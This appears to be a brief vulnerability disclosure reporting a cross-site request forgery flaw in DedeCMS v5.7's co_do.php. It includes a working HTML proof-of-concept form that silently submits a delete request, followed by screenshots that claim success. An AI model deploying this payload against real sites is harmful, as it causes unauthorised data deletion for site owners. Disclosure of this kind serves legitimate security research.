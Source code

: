 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/co_do.php
![1](https://github.com/testgo1safe/cms/assets/64392026/935b17b2-7f2d-4657-ac76-98d2cc6eff61)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/co_do.php">
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="nid" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>








```
![2](https://github.com/testgo1safe/cms/assets/64392026/fc2773e7-9475-4bab-bae2-73ab06b82dc6)



successed

![3](https://github.com/testgo1safe/cms/assets/64392026/6e18ca01-fc4a-47c9-83e3-8f50c8dee120)
